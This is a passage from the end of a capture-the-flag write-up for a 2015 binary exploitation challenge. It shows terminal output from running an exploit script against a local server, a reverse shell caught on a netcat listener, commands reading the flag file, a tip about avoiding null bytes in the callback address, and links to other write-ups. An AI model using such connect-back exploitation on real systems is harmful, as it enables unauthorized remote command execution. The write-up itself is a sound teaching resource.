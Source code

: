 ```bash
$ PS1='exploiter $ '
exploiter $ python solve-2.py
[+] Opening connection to localhost on port 9000: Done
fash$ 
[*] Closed connection to localhost port 9000
exploiter $
```

Back to `srv`, we see a connection:

```bash
remotemachine $ ./srv
Received client from 127.0.0.1:37411
Processing client: pid: 3352 socket: 4
```

And if we type something into our `netcat` victim listener, we have a connection (for testing purposes from `127.0.01` port `58956` ) and thus a shell.

Now, we can execute commands!

```bash
Connection from [127.0.0.1] port 11111 [tcp/*] accepted (family 2, sport 58956)
ls
flag.txt
solve-1.py
solve-2.py
srv
srv1.tar.gz
cat flag.txt
aleph1-to-the-rescue++
localmachine $
```

The flag is `aleph1-to-the-rescue++`!

NOTE: Your IP or Port should not contain any nullbytes (`\x00`) or any other bytes that cause functions such as `sprintf`, `scanf` etc to abort reading your input too early.

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/hackim-2015-exploit-100/>
* <http://v0ids3curity.blogspot.in/2015/01/hackim-ctf-2014-exploitation-1.html>
* [Japanese](http://toriaezukaite.blogspot.de/2015/01/hackim-2015-exploitation-question-1.html)
